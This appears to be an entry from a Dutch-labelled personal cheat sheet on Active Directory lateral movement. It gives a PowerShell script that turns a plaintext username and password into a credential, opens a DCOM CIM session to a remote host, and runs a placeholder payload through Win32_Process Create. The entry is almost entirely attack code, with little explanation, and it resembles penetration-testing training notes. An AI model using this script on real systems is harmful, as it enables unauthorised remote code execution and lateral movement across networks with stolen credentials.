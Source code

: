 # 24. AD Lateral Movement — Entry 4

## Categorie

WMIC

## Commando

```
$username = 'jen';
$password = 'Nexus123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options 
$command = 'HERE WE PLACE THE PAYLOAD GENERATED WITH encode.py';
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

## Omschrijving

Full script

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

